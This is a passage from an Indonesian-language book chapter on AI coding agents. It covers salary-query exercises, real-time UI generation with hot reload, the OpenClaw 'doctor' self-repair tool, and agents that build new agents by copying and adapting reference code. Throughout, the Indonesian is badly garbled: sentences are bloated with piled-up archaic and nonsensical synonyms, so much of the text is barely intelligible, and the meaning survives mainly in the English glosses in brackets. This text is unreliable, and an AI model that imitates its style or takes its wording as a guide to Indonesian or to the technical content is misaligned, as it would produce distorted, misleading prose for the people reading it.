> 6. Pojok departemen se-mana gerangan yang pongah berkacak merampas tingginya kisaran rupa pundi gajian selang rentang warsa lewatnya lampau itu, timbang bertarung antara seteru A bertolak B?
> 7. Sebesar apa perbandingan takaran gundukan titik tengan rerata (average salary) mencuat buat masing-masing serdadu abdi murni per setiap rentang jejak kasta/level nya di kurun masa selingkar edar warsa hari-kini?
> 8. Meraba ukur temuan gajian rerata tumpuan rentang pada lingkar edar sekeping putaran rembulan penghujungnya (*last month*) merenggut barisan jajaran pekerjanya berpijak patok ber-lamanya-masa abdi dengan kelas batasan secuil belumlah mencapai genap lingkar setahun utuh, selang satu membentur perempatan-dua rentang warsa (one to two years), lanjut pada perkelahian dua menembus patok tiganya?
> 9. Pungut dan jemput bongkar persembunyiannya: rupa-rupa muka-nama sosok 10 deret unggulan abdi karyawan (employees) mana nan pongah merengkuh ledakan loncatan penambahan tumpuk-gunung kasta nilai pundi bayaran sang gajinya terlampau drastis memuncak ter-akbarnya di sela jurang rentang lompatan si warsa-lewat mendesak tiba menjungkalkan jejak masa warsa saat-kini nya?
> 10. Apakah rupanya beralas pijak semacam nista temuan cela serpih kejadian upah mangkir tertahan belumlah-usai-tertuntaskan (sekelumit sosok si abdi pekerja nan terpampang cemerlang bersetatus sedang getol-sakti berjaya bertarung menunaikan kerjanya sepanjang selang bentangan-masa sembulan bersangkutan /employed/ lantas sekonyong-konyongnya tak-sedikitpun secuil terbersit mencatut sekepingpun sisa rekaman (record) kucuran-uang/salary di belahan rahim sembulan (month) merujuk-kala persis yang tadi itu jua)?
>

**Peracikan Pembangkitan Perangkat-Lunak Semerta-Merta (Dynamically Generating Software).**

Puncak titik klimaks takaran kemutlakan rakit-sakti kancah turunan dari (application of) rekayasa sandi-*Code generation* bermuara tepat (is letting the Agent) di kemerdekaan merestui sosok si Agen bertingkah-rupa mencipta membidani keping peranti-lunak sesukanya seluas semesta dinamismenya purna membujur kaku-tuntas, mutlak merangkak sedari hulu serpihan-tiada (from scratch). Gebrakan tonggak "Imagine with Claude" besutan peracik kawah-Anthropic mendedahkan rupa merangkai pancangan tapal batas pamungkas yang menyibak menyorot mercusuar di baris pilar terdepannya (marks out the frontier): sang pemakai (user) bersabda melemparkan sebongkah hajatnya, perlahan si Claude sigap menebas meramu-sakti meracik membingkai susunan bingkai wujud antarmuka pelataran muka (*frontend interface*) dibarengi sengit keping logika olah-saji silang-tumpangnya rill-purna-kini serentak (*real time*), serentak si pengguna mendaulat raga bersentuhan lincah (interacts) mencicipi pautan wujud produk program rupa peranti cipta-dilahirkan (generated software) tadinya, sembari Claude-pun tanpa lengah membongkar merevisi tambal-sulam barisan untaian kodenya membidani pemunculan raut-wajah susunan antarmuka baru membeberkan gelaran bentang kemegahan deret perwujudan pantulannya (*results*). Mata-kaca nan tajam milik si user khidmat menyaksi takjub tatkala suatu kemegahan tumpuan pelataran *application* meronta menyembul membongkah mekar tumbuh membubung tercipta menyeruak berangkat dari hamparan kehampaan belaka jua senantiasa-berlanjut menanjak berevolusi sempurna.

Sayangnya sedemikian betapa rupa kemegahannya (Fully dynamic generation), kancah dinamika purna-lahiran-ciptaan ini acapkali menebus sesapan merongrong serbuan angka beban pembiayaan teramat pedih jua laju-langkah yang laksana serasa diseret-melata—membuatnya kelewat sekedar jauh lebih merengkuh kemanisan saat sekedar dipakai berlaga memperagakan atraksi wujud demo unjuk gigi kekuatan-pesona kemampuannya belaka (demonstrations of what is possible) ditimbang beradu mengadu keras banting tulang menyusup-terjun di kubangan ranah gelanggang produksi kancah-rill kesehariannya (*production use*). Titik tolak wujud setapak jalan pendekatan pragmatis yang lebih lugu masuk akal (*pragmatic approach*) bermuara di ketegasan laku pengerjaan "membengkokkan-menyisip tambal menyesuaikan wujud *framework* rangkum-dasar nan senyatanya sudah eksis bercokol (customize an existing framework)." Teladan alur rupa-setengah pugar ("semi-custom" model) tersebut mengawal menaungi membenteng keutuhan kesaktian pondasi tatanan aslinya serentak membuka tabir menyerahkan celah tampuk pegangan kendali pada cuil porsi asupan bagian rupa (*selected aspects*) tertentu terpasrah mutlak menghadap pelimpahan genggaman ke-kuasa-an si pemakai. Sang user bebas bersabda mendaulat "buat tombolnya bernuansa ke-biruan," "susup sisipkan pilar raut jalan-pintas rentetan-*menu* mendiami sisi tiang palang tepinya," ataupun malah menitah "buang bongkar beralihlah ke tampang lajur ketik tulisan (font) nan kian lincah menyapanya-keterbacaannya"; si Agen-pun gesit menyambar-bongkar gurat keping sisa sandi barisan kodrat keping-depannya (*frontend code*), dibarengi daya sengatan kilat peranti *HMR* (Hot Module Replacement—wujud keajaiban-sistem nan lincah menyepuh membongkar sisipan tatanan modul-kerabat sasarannya menisbikan rupa malapetaka kewajiban mesti mengebut-hempas merestart mendulang-tayang selingkar laman layar purna-mutlak keseluruhannya jua senantiasa gemilang menjamin mengawal ketahanan tumpuan pelataran kondisi purna hidup wujud nafas-aplikasinya) sudi kilat mendaratkan rupa tumpuan segala rentetan hasil polesan rombakannya itu saat selintas kerlip matanya (*immediately*). Secuil perawakan sosok-produk satu-celup menyasar merengkuh seribu kepuasan semesta raya membentur sirna seketika sekonyong menjelma raut tempaan pengalaman spesifik diramu persis teruntuk tiap selera sebiji penggunanya (tailored to each user).

> **Eksperimen 5-11 ★★: Jejaring Lintas Antarmuka Pelataran Percakapan Bercita Rasa Penyesuaian Sendiri (Conversational Interface Customization System)**
>
> **Sasaran Utama Uji-Coba (Experiment Goal)**: Mempersilakan-mendaulat sang pemakai buat membedah meracik antarmuka pelataran wujud muka si peranti-lunak secara sekelebatan mata belaka (instantly) melampaui rentangan seutas obrolan bersahutan basa-basi bahasa alami, serentak menimbang menyahihkan (evaluate) akankah wujud lontaran perakitan keping sandi (code generation) berbonceng balutan laju saktinya peluru si reload instannya (*hot reload*) memang teguh kuasa bertepatan mantap mempersembahkan ke-elokan serapan kemasan asupan sajian citra diri merujuk keluwesan personal per penggunanya (personalized user experiences).
>
> **Langkah Penetrasi Teknis (Technical Approach)**: Bangunlah fondasi wujud keping pelataran celoteh ringan robotik-mula (basic chatbot application) (berpondasi muka-depan balutan React jua sisipan sisi pangkalan *FastAPI backend*), dan kebut paskan memecut melarikan kelajuan laju roda dwi-gandanya (*both components*) menghampiri rute-terawang kubu persembahan panggung wahana *development mode* membarengi perbekalan lecutan fitur per-peluru instannya-bersemayam tersulut menyala (hot reload enabled / React HMR and FastAPI reload). Kawan pemakai senantiasa sanggup melontarkan lontaran pancingan tawaran titah hajat-modifikasi perakitan kustom-UInya (ragam pelapisan warna, corak font, susunan rupa wujud layout, deretan perletakan posisi wujud pernak-pernik *components*, dsb.) bertahta sekujur serapan waktu memutar obrolan cakap berlangsung (during the conversation). Sang Agen-pun mandiri bebas otonom menubruk merombak gurat barisan raut tulis-kodenya. Laju roda mesin saktinya mekanisme si hot-reload spontan otomatis tanggap mendeteksi meraba gurat rombak-ubah file, sang keping palang-depan / *frontend* lantas pontang-panting mendera re-rebus (recompiles) seraya membuang-berseka segar (*refreshes*), lantas berujung si umat *user* mencerap seketika seutuhnya serentetan badai rentetan raut wujud pergantian (interface changes) nyata mendarat di sela waktu sungguhan berjalan-nyata (*real time*). Tubuh jaringan-sistem sakti menopang menggotong rupa berbilang putaran silang-tumpuk perulangan iterasi dari lakon permak sang modifikasinya (iterative customization).
>

### Kode Sebagai Rahim Pecetus Lahirnya Susunan Kode: Rupa Wujud Melahirkan Diri-Agen (Agent Bootstrapping)

Lorong jejak barisan tapak di segenap untaian ruas sebelumnya murni berderap khidmat membuntuti merangkul tapak-suci laju serapan pendar *code generation* melintasi berbilang sekujur kancah panggung domain secara susul-menyusul tiada-henti—melayang menjejak melintasi bentang belantara hitungan rasio kematematikaan beralih meloncat ke titik perombakan per-ciptaan lembar keping warta dokumen, berujung nyaris menyentuh ceruk setelan rupa modifikasi tatanan wujud raut mukanya/interface customization. Dorong melesatlah seluruh kepiawaian tadi menyentuh palang titik kulminasi kemutlakan maksimalnya (Push these capabilities to their limit) maka suatu tanyaan beralaskan lugu kewajaran perlahan mencuat melayang terhempas terang-terangan: kuasakah sebiji sosok sang Agen mendayakan keramat wibawanya merapal lakon membesut sandi *code generation* sekedar cuma berdalih menyulap membuahkan perwujudan kelahiran (create) Agen penantang lainnya lagi?

Pertama-tamanya, kami didera kewajiban memilah menceraikan membedakan (distinguish) rentang jarak benang-bahasan dari ruang kamar rupa isi pilar Bab 8 kelak. Bahasan setingkat keping ruang-isi saat-ini (This section) mendaulat urusan keramat wujud kehebatan sang Agen menundukkan rupa serapan sandi-kodenya teruntuk menjejali laju daya tambal perbaik merujuk pada pugar rupa-sosok dirinya pribadi berikut merekah mendayung perwujudan menjemput kelahiran sang Agen kawan lainnya jua (*repair themselves and create other Agents*)—melewati titi rentang *self-repair*, per-klonan pemantik diri (*self-replication*), jua ajang rekayasa susunan kreasi instan on-demand—menyanding menunggang perawakan raga untai code sang Agen juga kerangka susun rancang arsitek-naungannya berposisi selaku rupa ladang incaran perombakan objek perwujudannya (objects of change). Di seberang titik-baliknya untai kalimat pusaka Bab 8 berupa embel "evolusi-mandiri / self-evolution" menorehkan rupa corak murni menyilang berseberang mutlak: perkara ini sepenuhnya membedah kepiawaian se-Agen menggelembung melebarkan batas panggung sayap ranah kecakapannya (expand its capabilities) berulang mulus tanpa-putusnya sekadar bertumpu merampas mencuri meraup tumpukan rupa *experience* pengalaman belaka, memugar susunan kalimat pancingan (prompts), dengan sigap menghimpun gundukan peranti persenjataanya (tool library) **tanpa sama sekali mengorek mengusik apalagi menyetel ulang menambal rentang ukuran muatan-bobot bawaan dari-sang model (modifying model weights)**; palang sasar buruannya sebatas melulu cuma (targets are) per-kumpulan tumpukan pundi ilmu pengetahuan dan trik lakon-siasat taktis strategi. Rentetan dwi-siasat lintasan ragam rentang jalan gerak-proses tersebut niscaya pantas sah berhak disandangkan pelabelan sama selayak embel sebutan jubah "Evolusi/evolution", melainkan dalam asa meredam membungkam letup letup kebingungan ke-muka jubah titel hiasan pusaka rahim Bab 8 nan menjulang itu, keping-ranah penggalan ruangan-teks yang satu ini menahbiskan lekat pemakaian istilah **bootstrapping** selaku sandangan rujukan memuliakan perihal ranah kapasitas melahirkan-menyemai menguraikan hasil tangkapan-karyanya berupa gundukan sandi *Agent code*.



**Pengobatan-Mandiri si-Agen: Teladan Tabib Penawar OpenClaw (Agent Self-Repair: OpenClaw Doctor).**

Sebuah tiang fondasi prasyarat (prerequisite) pamungkas penyokong di-bawah-naungan urat-nadi ajian wibawa pemantik *Agent bootstrapping* bersumber mutlak dari kedigjayaan mumpuni membereskan (ability) perkara rupa jahit menambal pugar perbaiki sosok diri-pribadi sendiri (*self-repair*). Titah baris rupa ajian `doctor` pada balutan ranah *OpenClaw* menampakkan jelmaan ragawi dari sekujur perwujudan kepiawaian gilang-gemilang itu—nan lincah mandiri gesit memindai mencium auto menangkap basah (automatically detect) ber-wujud 3 (three) varietas tipikal gundukan marabahaya kelam isu mematikan (issues):

- **Ke-Anomali-an Corak Bentuk Konfigurasi/Configuration anomalies**: Berwujud tatanan token OAuth terbuang melampaui masa aus-kedaluwarsa, bentuk rupa silsilah pola kuno konfigurasi lawas (legacy configuration formats), letup amuk singgungan cekcok tabrakan antar pintu port (port conflicts).
- **Problematika Wujud Perawakan State/State issues**: Serpihan usang keping berkas gembok status saklar basi (Stale session lock files), lenyap raibnya untai sulur urat-kaitan-sarana plugin di-pelupuk (*missing plugin dependencies*).
- **Permasalahan Pendar Sehat Raga Layanan/Service health issues**: Jembatan perantara sang Gateway terkapar koma mampet-berjalan, rupa wujud perwujudan imajiner dari si kotak pasir *sandbox images* pun amblas (missing).

Seterusnya tanpa tedeng aling ia lincah cekatan merombak memberangus merampungkan masalah per-keping dari ragamnya lewat rentang gerak rute benteng-lapis pelapis resep pengobatannya (layered repair strategy): wujud rupa penawar gubahan ringan merupa siasat aman (safe fixes) (sebangsa penyetelan pemusat kewajaran tata-kelola konfigurasi, bersih-tumpas keping rupa bangkai saklar-gembok/lock file) dipelintir terjamah di hantam tanpa basa-basi auto terpasang meluncur; sedang kelakuan operasi di ladang zona-bara merapi rentan merisiko (risky operations) (kategori pemaksaan bangun-tebas layanan/service restarts, main paksa gencet menimpa/overwrites-tatanan keping wujud konfigurasi mutlak) senantiasa mendaulat menjemput segenap anggukan suci-restu sakral si *user*.

Biar kita tiada berlarut kepalang menabuh puji di ambang over (Let's not overstate this): setumpuk masalah langganan nan rajin berkunjung-sering rupa kasta-berentetan macam aus-kadalauwarsanya gerombol token, tumpukan berkas rupa bangkai-pengunci usang, bersama letup rintisan baku hantam di wilayah sengketa-port terang-terangan memeluk aturan batasan rupa jerat jeli aturannya dengan pakem tetapnya dari sekujur laku pugar langkah tangkalannya (fixed repair actions), lalu sang `doctor` itu pun **beringsut mencegat menumbangkan kesemua barisan itu paling perdananya berbekal tameng ketetapan ajeg tumpuan deteksi kepastian deterministik (deterministic checks)**, nyaris sebelas duabelas bagai bayangan pantulan keping gulungan naskah operasional warisan masa luhur kuno tradisional itu belaka. Daya guna keluhuran tingkat dewa kemampuan si Agen itu mencuat mewangi unjuk gigi pamer rupa bertahta mutlak di gerbang lapisan nomor duanya (*second layer*): buat serpih permasalahan rumit mencengkram melampaui dinding aturan-aturan di luar batas tersebut, sang ajian `doctor` memutar me-mecut tumpuan LLM menyibak meredam menyuling serapan racik log kelam gundukan error log, menafsir meluruskan memaparkan tatanan bingkai file (configuration files), menjejak menuding asal muasal perih saripati akar-biang pemicunya (root causes), lalu me-ramu membuahkan suguhan gurat alur peta (plan) tatanan pembedahan penyembuhan menukik tertuju rill nan telak sasaran (*targeted*). Cengkeraman mantap laku *Deterministic checks* menebas masalah musiman secara lugas terandalkan, disusul sokongan LLM menyasar ujung buntut rupa permasalahan memanjang tak bertuan nan panjang (*long tail*); lebur membaur dwi-keping lapis susunan inilah merestui bentang perwujudan gerak `doctor --fix` sudi melerai menyelesaikan porsi gundukan setumpuk lumbung-masalah lazim menderu di lajur lintasan gateway otomatis terbungkam teredam-tuntas. Apalah nian yang melambungkan mengangkat kelakuan perwujudan "Agen menyembuhkan Agen" macam rupa pola (pattern) pendar ini semata-mata adalah sebatas lakon perawakan sang Agen yang menggasak menghantam melibas tak tertuju sekedar menerjang mengusili rupa tatanan perangkat sistem lapis luaran eksternal luar belaka melainkan ia membentur menyodok membungkuk sibuk menghajar membina-menata perapihan meretas di relung internal panggung area sirkuit kancah raga *runtime environment*-nya dia punyanya pribadi sendiri, mengerek menyungging melambungkan derajat tatanan ajian penyembuhan pengobatan ragawinya (*self-repair*) mendobrak mumbul menjauhi belenggu kasta bawahan sekelas kuli hamba fungsi seutas pilar adaptor pembawa-sambungan belaka (system-adapter function) sekonyong konyong beralih mencengkram erat tatanan tahta singgasana pucuk inti rupa rahim fondasi kerangka mega-infrastruktur pembentuk-lahiran semata (*bootstrapping infrastructure*).

**Kunci Rahasia Jurus Memaksa Seorang Agen Supaya Melahirkan Tulisan Rupa Seorang Agen (Key Techniques for Making an Agent Write an Agent).**

Melontarkan titah mencipta sebuah Agen berwibawa level kasta mahakarya tinggi merupakan sebuah ajang siksaan kepelikan yang melampaui berbilang kali-lipat tingkat susahnya disanding sebatas membuahkan gubahan rupa keping aplikasi koding tulen keseharian (*ordinary application code*), pasalnya laku tersebut memeras gedoran syarat tebusan berbalut jangkauan pandang rupa serapan cerna maha-tajam (*deep understanding*) di kancah rupa rancang-bangun arsitek sang Agen, lajur-lajur pakem teruji (*best practices*), disusul rimbun kancah jebakan lubang neraka maut kesialan ranjau di rupa-rupa kesalahan lazimnya (common pitfalls). Terkikis lumpuh ketiadaan topangan tunjangan pasokan pengalaman ahli ilmu luhur kasta kepakaran (domain expertise) niscaya membikin betapapun gahar sangarnya sosok jagoan keping pencipta ramu-*code generation models* pada ujung puncaknya sekedar menetaskan deret sang Agen cacat bawaan dengan sarat penyakit arsitektur di sekujur lukanya (*architectural flaws*). Ragam jebakan-cacad lumrahnya meliputi rupa pendaran ini:

1. **Pengurusan amburadul di pengelolaan penanganan tatanan keping Konteks (Ad hoc context management)**: Luput kandas memeluk ajaran pakem sebatas pemakaian rupa wujud muatan ragam-pesan pola baku standar *context format* nan digariskan dikaji ditelisik dalam rahim Bab 2, kalap mencekik mijejali rongga asupan membabi-buta gundukan padat riwayat *trajectories* semata rupa ketikan-wacana-polos kaku (*plain text*) melontarkannya berdesakan menggasak memuatkannya kedalam perut-ruang keping *context*, memunggungi masa bodoh buta tuli ke keagungan pilar perombakan *KV Cache optimizations* bertumpu pasokan keping terkotak terstruktur rapi *structured messages*, hingga naas purna mendulang serpih bencana pemicu menyemai deret perusak rupa serangga di sekat sela batas pinggiran rintisan (*boundary-condition bugs*) pada rupa rel putaran pemanggilan-alat ganda bersinggungan *tool-call loops*.
2. **Desain pola sarana penunjang yang liar tak-memenuhi kaidah wajar standar (Non-standard tool design)**: Untaian penggambaran semu remang-remang (*vague descriptions*), amblas lenyapnya rupa rentetan wejangan penuntun koridor panduan tata batas kaidah batas pemakaian berikut daftar kutukan-sial yang diharamkan (negative lists), lantas buntungnya segenap penunjang rentet takaran ragam (*parameters*) yang yatim-piatu tersingkir mengais papa-melarat nihil dari secuil sisipan sajian pamungkas tumpuan teladan rujukan jernih/concrete examples.
3. **Pilihan raut rupa bongkahan kecanggihan teknologi kusam berdebu jaman-kuno usang (Outdated technology choices)**: Pukulan dorongan hasrat naluriah nan gemar latah melirik mendaulat menunggang sisa serpih wujud model kuno namun tersohor populer walau nyatanya jadul bin uzur (outdated) berikut API warisan usang berjamur sisa warisan pusaka rupa peninggalan reruntuhan dari serapan materi jangkauan tumpuan rekam pelatihannya (training data). Penangkal obatnya (Solution): Peliharalah kobar nyala api penuntun wadah gudang pangkalan data terkini merupa perawakan SOTA (*knowledge base*) atau bekali limpahkan persenjataan kepada si Agen ber-kekuatan daya tembus lacak peluncur mumpuni (search capabilities).
4. **Tercabut putus ikatan benang kaitan jembatan nan menembus ke ranah kancah luar semesta jejaring kerumunannya (Disconnection from the external ecosystem)**: Terjerembab menyedot API rapuh usang usiran yang telah terlanjur dimatikan ditolak keras-dibuang (*deprecated*), kerumunan bongkahan lapak kepustakaan nir-pemeliharaan peninggalan liar berserakan (unmaintained libraries), berwujud pula corak pola laku serapan bengkok retak mencong (flawed patterns).

Lorong titian rahasia termahir pamungkas membedah lurus rupa gundukan ragam halang rintang di atas tersebut nyatanya bermuara ke arah laku elakan menahan diri ketimbang bersemangat kalap memberondong telanjang mendiktekan membeber semua jejeran tetek-bengek kitab undang larangan pada rupa *prompt*, melainkan lurus mengemban mematok langkah **mempersembahkan merelakan deret teladan wujud ragawi penerapan gubahan si Agen tingkat wahid sakti-cemerlang semata menyokong selaku rujukan sandar pelita tiruan teladan utama murni (reference examples)**, sudi menuntun laju langkah kiprah lari si lincah Agen pemahat sang pembangkit keping-kode (*code generation Agent*) lantas memoles memermak mendandaninya menyempurnakannya alih-alih menghela menggasak kering memukulnya merangkak nol (starting from scratch).

Deret letup pendar berkah beralas-sandar rupa wujud pandu teladan gubahan cipta (example-based generation) sungguhlah benderang nyaring menggema: wujud rupa gumpalan potongan sandi per-contoh-teladannya sendiri tak pelak sarat menjunjung menyunggi memanggul murni sebongkah pilar keping ke-suci-an *best practices*. Seraut Agen nan sudi menjiplak merekatkan mengadaptasi sepotong pilar rupa rakitan-jadi yang telah malang melintang sukses teruji mumpuni (validated implementation) tak pelak jauh meraup menyedot rentang kemenangan mujur menyasar kelurusan kegenapan di-jalur (gets things right) melampaui membubung sekian berkalinya menyikat ludes peluangnya ketimbang nasib pecundang sang se-oknum kawan Agen se-kaum-nya nan melintasi titik mula memeras membanting keringat sedari ketiadaan kosong bolong-ompong hampa dari rupa serpih nihil, beralas telak sang rupa keping rakitan itu sukses senantiasa mengawal menjaga keperawanan pilar wujud tata arsitektural bersahaja menohok sakti di tempatnya murni mendaulatnya kokoh-kokoh tegak niscaya membungkam memberangus sirna segenap syarat mutlak paksaan di mana tiapan rinci urat baris tata aturannya dipaksa dijabarkan dipaparkan menyiksa (*spelled out*) di palungan buaian kubu rupa *prompt*-nya.

Di saat sebuah jajaran sang Agen tertimpa anugrah mengemban sebongkah beban menuntaskan penciptaan menyemai melahirkan keturunan bayi perwujudan sebentuk sosok (a new Agent) anyar, laju langkah-pertamanya selayak patut lekas membuntuti menggamit mencaplok rupa replikasi salinan jiplak mengukir (*copy*) segenap ragawi runtutan untaian miliknya-kode dirinya sendiri tersebut (atau menyabet jajaran sang sisa keping-keping andalan tumpuan penerapan sakti benderang kasta ningrat mutu setinggi angkasanya jua) dan merangkak memacu berlanjut menggerakkan roda gempuran pemugaran rombak-papas menukik (*targeted modifications*): menakar mencocokkan menyelaraskan urat-urat nadi rupa perwujudan *system prompt*-nya agar mengawinkan menyanding pas membelah tepat beralas (match) panggung sandangan sorot lakon-kancahnya nan beru (new role), membanting mencopot menggilas membabat melengeserkan menyingkirkan seraya menyeret merekat mendaulat alat-alat persenjataan mematikan peranti (*tools*) menyesuaikan mengikat serapan segenap wujud-wajah lakon fungsinya-barunya jua, meramu membongkar mengulik alur nalar perniagaan logisnya (*business logic*) sembari awas merangkul mendekap ketat melestarikan rupa wujud rangka agung rupa pondasi *architectural framework*nya. Deret barisan pilar gerak pola rupa "kembaran-titisan merengkuh pemugaran adapatasi lekatnya" (*self-replication with adaptive modification*) menisbikan rupa menggaransi segenap untaian si anak titisan Agen penerus anyarnya niscaya mulus meraup tuah melahap menelan keperkasaan berkah luhur murni pilar warisan jajaran mahkota kedigjayaan rahasia teknis sang primadona asalnya (*inherits core technical advantages*) diiring restu suci kebebasan keluwesan pembeda mutlak menyentak wujud diferensiasi (differentiation) ke ranah ceruk relung penjuru spesifiknya sedemikian lurus sebentang membayangi pendar gema rupa persilangan per-kawin-an replikasi silsilah untai gen di paduan mutasi genetik kancah jagat biologi.

> **Eksperimen 5-12 ★★★: Membina Melahirkan Rupa Sebentuk Agen Nan Bertuah Kesaktian Mencipta Keping Para Agen**
>
> **Sasaran Utama Uji-Coba (Experiment Goal)**: Membangun membina menganyam sebuah sosok wujud Agen Pengodean (*Coding Agent*) bertabur tuah keluhuran kekuatan perwujudan ilmu *metaprogramming*—kesaktian meramu menjahit memintal keping guratan program nan menyembur menyihir melahirkan atawa mereparasi sekujur tubuh gerombol susunan program (other programs) nan lainnya—sehingga wujud-agen ini auto mutlak mandiri mampu merajut menguntai mencipta serapan sarana jajaran susunan sistem (Agent systems) anyar lahir suci serap menyerap pendar seruan rintisan sang pemakai (user requirements) bersanding mengalun merengkuh rupa-rupa kepatuhan taat merunduk setia (adhering) menjunjung tatanan pakem agung keluhuran *best practices*.
>
> **Langkah Penetrasi Teknis (Technical Approach)**: Jejalkan persembahkan tuangkan murni untuk persembahan sang *Coding Agent* rupa jelmaan kumpulan per-terapan-agen bermutu ningrat selayak rujukan pelita rupa percontohannya (reference examples) (bahkan jasad dari bingkai proyek si `ch5/coding-agent` sendiri sangat sudi dipinjam dipekerjakan). Tatkala terbelenggu beban merajut menyusun merengkuh lahirnya sebongkah turunan *Agent* anyar, sosok Sang Agen sekonyong sigap meluncur merangkul perdana mencaplok menyalin (copies) gundukan untaian bungkusan kode panutan per-contoh teladan ini dan merayap meneruskan menggasak membombardir serbuan gempuran penyesuaian pugar modifikasi perombakan tertuju menyasar berlandaskan merujuk semata seruan butuh mendesak tuntutan hajat (specific needs) si-Umat penggunanya itu.
>
> **Tanda Patok Batasan-Lulus (Acceptance Criteria)**: Serpih Sang Agen nan lahir meletup ter-cetus menyembul itu lurus sukses tangguh menderu mulus (runs successfully) serentak gemilang melumat menuntaskan deretan himpunan gempuran tugas standar mula-mulanya. Buktikan telisik periksa mensahihkan (Verify) bila-mana dia seutuhnya mendayakan menggamit bentangan wujud keping format susunan pesan standar rupa baku (*standard message formats*) bersama tatanan rel-paku protokol rupa aturan main pemanggil-perkakas (*tool-call protocols*), dibarengi menjamah merujuk jalinan kerumunan sang model terkini merangkul himpunan anjuran teratas berikut set tatanan deret *APIs*, dan mengikat lekat merangkai susunan pola-sakti memanajemen perawakan tampungan muatan Konteks (*context*) maupun tata rupa kelola pijakan rekam-jejak si (*state management*) lintasan panggung putaran per-cakap-an percaturan ganda berbilang putar-silih gantinya. Banding sandingkan (Compare) hasil panen-kreasi buah karya sedari serapan titik angka-nol (from scratch) mengadu tangkas menyikat tanding siasat perombakan rupa (modification) yang membuntuti jejak sang panutan (example-based), lantas tabuh genderang tegaskan putuskan menyahihkan kebenaran (confirm) sekiranya jejak kubu lajur modifikasi panutan tersebut terbukti benderang mengungkit mengatrol lejitkan lonjakan keluhuran rupa-mutu berikut gerak ke-cekatan kelincahannya/efisiensinya.
>
>
> 
>

Titik pucuk puncak pengembaraan penempaan-lahir Agen (*Agent bootstrapping*) menjelma selaku puncak letup murni pamungkas absolut dari aplikasi si-tumpuan kreasi-sandi per-kode-an (*code generation*)—sosok si Agen yang mahir berkuasa melahirkan Agen memetik mengukir menoreh raihan keberhasilan puncak penjiplakan pelipatgandaan swakarsa benih-kecerdasan (*self-replication of intelligence*). Mengiringi capaian luhur itu, purna lunas tuntaslah laku jejak kita merengkuh membuntuti menelusuri sekujur kelengkapan lengkungan busur pelangi perjalanan per-Bab per-tulisan ini terbentang: mendayuh dari saripati gumpalan akar cikal muasal pondasi pilar sosok Agen Pengodean (*Coding Agent*), merayap tembus menebas beragam serapan serbuan tuah manfaat kancah peruntukan pendar rupa siasat penciptaan pembuat-kode (code generation), berujung menancap sakti menjemput ranah pusaran laju *bootstrapping*.

## Ringkasan Bab (Chapter Summary)

Jejak langkah keping di panggung-Bab ini lantang menyorot mendera menghujamkan sebiji pilar gurat wacana utuh terbentang seluas lajur awal dan pungkasnya: untai guratan Sang Kode sejatinya niscaya jauh dari sekedar kasta hina rupa sebentuk alat bantu perkakas penyusun menyulam jajaran bingkai program (writing programs) belaka—kode ia menembus kasta menjelma wujud sebagai untaian bahasa murni pelambang pendar cerminan kerangka olah cipta akal murni formal dari sesosok wujud Sang Agen sekaligus merengkuh wadah pengejawantahan wahana tatanan pengungkapan lugas presisi nan absolut telak pastinya.

Ruas pelataran penempaan *Harness engineering* berujung bersandar menepi merapat singgah di satu muara kesimpulan terpusat: Sosok Sang Agen Pengodean niscaya dipandang matang-digdaya bukan sebab musabab berdasar tuah keunggulan ghaib dari barisan model pendera perakit kode nan mempesona (code generation models) memancarkan kehebatan supernya tiada dua, justru pijakan kekarnya mendera buah timbunan gunungan perasan keringat perabad-dekade menumpuk mencatut mengakumulasi setumpuk bongkah jajaran mahakarya deret *software engineering infrastructure*—hamparan rentang pasukan keping palang-uji (test suites), jaringan susunan silsilah-keturunan rupa per-tipe-an (type systems), tumpuan peranti gembok mengukir versi (version control)—secara lumrah naturalnya bahu-membahu membina merangkai wujud sesosok sosok tameng sakti rupa (powerful Harness). Gurat Kesimpulan tersebut sungguhlah amat terhormat menagih permohonan agar disebarkan merantau jauh ke ufuk di belahan penjuru rupa skenario-skenario sisa wilayah kekuasaan *Agent* (other Agent scenarios). Segmen pembedahan rupa kecelakaan kegagalan berikut ajian pengobat penyembuhnya (*failure and error recovery*) 